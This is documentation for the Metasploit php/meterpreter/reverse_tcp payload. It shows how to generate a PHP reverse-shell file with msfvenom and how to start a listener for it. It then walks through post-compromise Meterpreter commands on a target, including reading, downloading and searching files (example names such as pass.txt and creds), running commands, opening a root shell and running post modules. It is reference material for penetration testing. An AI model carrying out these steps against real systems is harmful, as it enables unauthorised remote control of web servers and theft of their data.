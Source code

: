The php/meterpreter/reverse_tcp is a staged payload used to gain meterpreter access to a compromised system. This is a unique payload in the Metasploit Framework because this payload is one of the only payloads that are used in RFI vulnerabilities in web apps. This module _can_ be cross platform, but the target needs to be able to run php code.


## Vulnerable Application

  The PHP Meterpreter is suitable for any system that supports PHP. For example, the module can be used against webservers which run PHP code for a website. OS X has PHP installed by default.

## Deploying php/meterpreter/reverse_tcp
### Scenarios

  Specific demo of using the module that might be useful in a real world scenario.

#### Generating a file with msfvenom
  ```
  msfvenom -p php/meterpreter/reverse_tcp LHOST=[IP] LPORT=4444 -f raw -o evil.php
  ```


#### Starting a listener
  ```
msf > use multi/handler
msf exploit(handler) > set PAYLOAD php/meterpreter/reverse_tcp
PAYLOAD => php/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST [IP]
  ```
  
## Important Basic Commands

Compared to a native Meterpreter such as windows/meterpreter/reverse_tcp, the PHP Meterpreter
has less commands, but here's a list of all the common ones you might need:

**pwd command**

The ```pwd``` command tells you the current working directory. For example:

```
meterpreter > pwd
/Users/thecarterb/Desktop
```

**cd command**

The ```cd``` command allows you to change directories. Example:

```
meterpreter > cd /Users/thecarterb/Desktop
meterpreter > pwd
/Users/thecarterb/Desktop
```

**cat command**

The ```cat``` command allows you to see the content of a file:

```
meterpreter > cat /tmp/data.txt
Hello World!
```

**upload command**

The ```upload``` command allows you to upload a file to the remote target. This is useful for uploading additional payload files. For example:

```
meterpreter > upload /tmp/data.txt /Users/thecarterb/Desktop
[*] uploading  : /tmp/data.txt -> /Users/thecarterb/Desktop
[*] uploaded   : /tmp/data.txt -> /Users/thecarterb/Desktop/data.txt
meterpreter >
```

**download command**

The ```download``` command allows you to download a file from the remote target to your machine.
For example:

```
meterpreter > download /Users/thecarterb/Desktop/data.txt /tmp/pass.txt
[*] downloading: /Users/thecarterb/Desktop/data.txt -> /tmp/pass.txt/data.txt
[*] download   : /Users/thecarterb/Desktop/data.txt -> /tmp/pass.txt/data.txt
meterpreter >
```

**search command**

The ```search``` command allows you to find files on the remote file system. For example,
this shows how to find all text files in the current directory:

```
meterpreter > search -d . -f *.txt
Found 2 results...
    .\pass.txt (13 bytes)
    ./creds\data.txt (83 bytes)
meterpreter >
```

Without the ```-d``` option, the command will attempt to search in all drives.

The ```-r``` option for the command allows you to search recursively.


**getuid command**

The ```getuid``` command tells you the current user that Meterpreter is running on. For example:

```
meterpreter > getuid
Server username: root
```

**execute command**

The ```execute``` command allows you to execute a command or file on the remote machine.

The following examples uses the command to create a text file:

```
meterpreter > execute -f echo -a "hello > /tmp/hello.txt"
Process 73642 created.
meterpreter >
```

**ps command**

The ```ps``` command lists the running processes on the remote machine.

**shell command**

The ```shell``` command allows you to interact with the remote machine's command prompt (or shell).
For example:

```
meterpreter > shell
Process 74513 created.
Channel 2 created.
sh-3.2#
```

If you wish to get back to Meterpreter, do [CTRL]+[Z] to background the channel.

**sysinfo**

The ```sysinfo``` command shows you basic information about the remote machine. Such as:

* Computer name
* OS name
* Architecture
* Meterpreter type

## Using `post` modules
When using the PHP Meterpreter, you have the feature of using Metasploit's `post` modules on that specific session. By default, most `multi` post modules will work; however, you can also use OS specific modules depending on the OS of the compromised system. For example, if you have a PHP Meterpreter session running on OS X, you can use `osx` post modules on that session. 

  __Don't forget to:__
  - Set the `LHOST` datastore option to the connect-back IP Address
  - If you want to get multiple shells, set `ExitOnSession` to `false`

